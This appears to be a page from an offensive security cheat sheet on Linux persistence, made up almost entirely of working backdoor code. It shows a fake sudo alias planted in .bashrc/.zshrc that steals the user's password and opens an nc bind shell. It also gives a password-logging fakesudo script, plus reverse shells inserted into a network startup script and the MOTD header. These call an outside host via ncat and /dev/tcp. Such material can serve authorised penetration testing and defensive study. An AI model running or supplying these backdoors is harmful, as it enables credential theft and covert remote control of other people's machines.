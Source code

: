## Backdooring a user's bash_rc 

(FR/EN Version)

```bash
TMPNAME2=".systemd-private-b21245afee3b3274d4b2e2-systemd-timesyncd.service-IgCBE0"
cat << EOF > /tmp/$TMPNAME2
  alias sudo='locale=$(locale | grep LANG | cut -d= -f2 | cut -d_ -f1);if [ \$locale  = "en" ]; then echo -n "[sudo] password for \$USER: ";fi;if [ \$locale  = "fr" ]; then echo -n "[sudo] Mot de passe de \$USER: ";fi;read -s pwd;echo; unalias sudo; echo "\$pwd" | /usr/bin/sudo -S nohup nc -lvp 1234 -e /bin/bash > /dev/null && /usr/bin/sudo -S '
EOF
if [ -f ~/.bashrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.bashrc
fi
if [ -f ~/.zshrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.zshrc
fi
rm /tmp/$TMPNAME2
```

or add the following line inside its .bashrc file.

```powershell
$ chmod u+x ~/.hidden/fakesudo
$ echo "alias sudo=~/.hidden/fakesudo" >> ~/.bashrc
```

and create the `fakesudo` script.

```powershell
read -sp "[sudo] password for $USER: " sudopass
echo ""
sleep 2
echo "Sorry, try again."
echo $sudopass >> /tmp/pass.txt

/usr/bin/sudo $@
```


## Backdooring a startup service

* Edit `/etc/network/if-up.d/upstart` file
  ```bash
  RSHELL="ncat $LMTHD $LHOST $LPORT -e \"/bin/bash -c id;/bin/bash\" 2>/dev/null"
  sed -i -e "4i \$RSHELL" /etc/network/if-up.d/upstart
  ```


## Backdooring Message of the Day

* Edit `/etc/update-motd.d/00-header` file
  ```bash
  echo 'bash -c "bash -i >& /dev/tcp/10.10.10.10/4444 0>&1"' >> /etc/update-motd.d/00-header
  ```
